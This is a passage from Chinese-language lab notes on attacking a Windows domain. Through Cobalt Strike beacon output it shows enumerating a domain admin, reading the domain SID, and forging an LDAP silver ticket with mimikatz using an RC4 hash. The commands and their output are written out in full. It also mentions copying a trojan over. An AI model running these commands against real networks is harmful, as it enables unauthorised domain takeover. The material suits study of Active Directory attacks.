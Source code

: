         后面可以通过`copy`将木马文件传递过去
        
5. 制作`LDAP` 服务白银票据及利用
    - 假如现在上线了域内一台主机，并且得到了域管理员用户 ，现在要需要控制域控（**Kerberoasting**）
        
        ![image.png](image%2034.png)
        
        ```python
        beacon> shell whoami
        [*] Tasked beacon to run: whoami
        [+] host called home, sent: 74 bytes
        [+] received output:
        god\administrator
        
        shell net user administrator /domain
        可允许的登录小时数     All
        
        本地组成员             *Administrators       
        全局组成员             *Enterprise Admins    *Schema Admins        
                               *Domain Users         *Domain Admins        
                               *Group Policy Creator 
        命令成功完成。
        ```
        
    - 查看SID值
        
        ```python
        beacon> shell whoami /all
        [*] Tasked beacon to run: whoami /all
        [+] host called home, sent: 89 bytes
        [+] received output:
        用户信息
        ----------------
        
        用户名            SID                                          
        ================= =============================================
        god\administrator S-1-5-21-2952760202-1353902439-2381784089-500
        ```
        
        域控是`owa.god.org`
        
    - 制作LDAP银票直接导入内存
        
        ```python
        kerberos::golden /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089 /target:owa.god.org /service:LDAP /rc4:5f7687a3b909b00386ca167919e883d1 /user:administrator /ptt
        ```
        
        ```python
        beacon> mimikatz kerberos::golden /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089 /target:owa.god.org /service:LDAP /rc4:5f7687a3b909b00386ca167919e883d1 /user:administrator /ptt
        [*] Tasked beacon to run mimikatz's kerberos::golden /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089 /target:owa.god.org /service:LDAP /rc4:5f7687a3b909b00386ca167919e883d1 /user:administrator /ptt command
        [+] host called home, sent: 813682 bytes
        [+] received output:
        User      : administrator
        Domain    : god.org (GOD)
        SID       : S-1-5-21-2952760202-1353902439-2381784089
        User Id   : 500
        Groups Id : *513 512 520 518 519 
        ServiceKey: 5f7687a3b909b00386ca167919e883d1 - rc4_hmac_nt      
        Service   : LDAP